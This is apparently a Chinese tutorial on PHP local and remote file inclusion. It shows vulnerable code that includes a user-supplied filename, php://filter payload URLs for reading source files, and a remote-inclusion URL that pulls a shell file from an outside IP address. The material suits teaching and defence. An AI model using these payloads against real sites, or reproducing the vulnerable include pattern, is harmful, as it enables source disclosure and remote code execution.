 # 文件包含

主要漏洞函数为:

```
include()
include_once()
require()
require_once()
```

用于包含一个指定文件。

## 利用思路

漏洞代码如下:

```
<?php
    $filename  = $_GET['file'];
    include($filename);
?>

```
<img src='https://0xfay.github.io/public/image/211723.png'>



### 通过PHP伪协议读取源码

http://localhost/baohan.php/?file=php://filter/read=convert.base64-encode/resource=timu.php

<img src='https://0xfay.github.io/public/image/211704.png'>

当然也可以用其他的过滤器如string.rot13:

http://localhost/baohan.php/?file=php://filter/read=string.rot13/resource=baohan.php

<img src='https://0xfay.github.io/public/image/213550.png'>

不过没base64好用就是了，读取后base64解码即可



### allow_url_include开启

allow_url_include在php5.2版本后就默认关闭
而allow_url_fopen默认开启

- 1.直接包含远程服务器shell

http://localhost/baohan.php/?file=47.112.188.203/shell/phpinfo.php

<img src='https://0xfay.github.io/public/image/212810.png'>

- 2.通过伪协议写入数据流
